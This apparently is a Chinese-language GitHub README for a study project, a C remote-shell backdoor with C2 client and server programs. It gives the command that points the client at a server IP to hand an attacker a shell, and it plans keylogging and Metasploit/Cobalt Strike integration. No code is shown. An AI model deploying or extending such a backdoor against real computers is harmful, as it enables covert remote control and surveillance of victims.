


# RemoteShell
这个项目是我学习C的windowsAPI和网络编程时完成的一个小项目。 在客户端上运行后门之后，服务器上的攻击者可以获得客户端计算机的shell并执行命令。

## Usage

**C2Client:**

```
C2Client.exe 192.168.1.2             #192.168.1.2为服务端ip
```

**C2Server:**

```
C2Server.exe
```





**PS:**

该项目采用windows管道传输CreateProcess创建的进程的返回值，有些命令会产生一些bug(如net share等)。后期可能会考虑改进这个简易版远控，优化上面的bug和加入键盘监听、dll自加载、联动msf、cs等功能。不过这些要等我不忙的时候了，最近实在太忙太忙，敬请期待......